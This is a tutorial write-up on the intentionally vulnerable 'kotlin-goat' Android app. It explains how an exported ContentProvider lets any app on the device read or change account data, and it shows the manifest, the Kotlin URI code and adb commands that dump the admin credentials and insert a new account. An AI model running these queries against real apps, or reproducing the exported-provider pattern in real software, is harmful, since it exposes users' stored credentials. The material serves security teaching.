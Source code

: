 M1: Improper Platform Usage
===========================
From the Android documentation: "Content providers are one of the primary building blocks of Android applications, providing content to applications". Content providers are mostly used to share data between Android applications. Such as Activities, Services or Receivers, Content providers can have weak permissions or can be exported for all the apps on the device. Such misconfiguration can lead the Android app to leak the data used by the Content provider.

When the Content provider is exported, all the apps can query the Content provider to retrieve or modify the data. On the kotlin-goat app, we can identifiy that a Content provider is defined with the name ".AccountProvider" and the exported tag is set to true. Here is an extract of the AndroidManifest file:
```
<provider
            android:name=".AccountProvider"
            android:authorities="com.cx.vulnerablekotlinapp.accounts"
            android:enabled="true"
            android:exported="true" />
```

Looking at the code on the AccountProvider.kt class, we can retrieve the Content URI:
```
companion object {
        private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
        private val ACCOUNTS_TABLE = "Accounts"
        val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
        private val DATABASE_NAME = "data"
    }
```

Then, using the adb tool, we can query this provider and even insert data. Here is simple example allowing to query the provider in order to retrieve the accounts stored:
```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin

```
We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the kotlin-goat app:
```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat

```

## Resources

### Tools

* adb

### Readings

* [Content Provider documentation] [1]
* [Testing Platform Interaction] [2]

[1] : https://developer.android.com/reference/android/content/ContentProvider
[2] : https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md